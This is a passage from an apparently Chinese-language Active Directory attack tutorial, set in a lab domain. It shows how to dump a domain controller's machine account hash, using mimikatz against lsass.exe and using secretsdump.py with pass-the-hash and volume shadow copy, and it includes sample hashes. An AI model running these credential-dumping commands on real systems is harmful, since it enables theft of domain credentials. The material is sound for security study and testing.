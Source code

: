 ##### 2）方式二

使用 mimikatz 的 `sekurlsa::logonpassword` 模块执行如下命令从 lsass.exe进程里面抓取域控机器账号 AD01$的原始哈希

```
mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords" "exit"
```

如图所示，使用 mimikatz 抓取的域控机器账号 AD01$的原始哈希为37945b4d7e794816622f47aa8e3b60b8。

![截图](e2300312f604805c84b1d994ca153f7a.png)

##### 3）方式三

使用 secretsdump.py 脚本执行如下命令启用`卷影复制服务 volume shadow copy （VSS）`导出域内所有哈希，这其中就包含域内机器账号的哈希。

```
python3 secretsdump.py xie.com/administrator@10.211.55.4 -hashes aad3b435b51404eeaad3b435b51404ee:33e17aa21ccc6ab0e6ff30eecb918dfb -use-vss
```

如图所示，使用 secretsdump.py 脚本导出域内所有哈希，可以看到 AD01$机器账号的原始哈希为 37945b4d7e794816622f47aa8e3b60b8。

![截图](8da9353b80c39b0a348028baa4c87c6e.png)

#### （2）恢复域控原始哈希

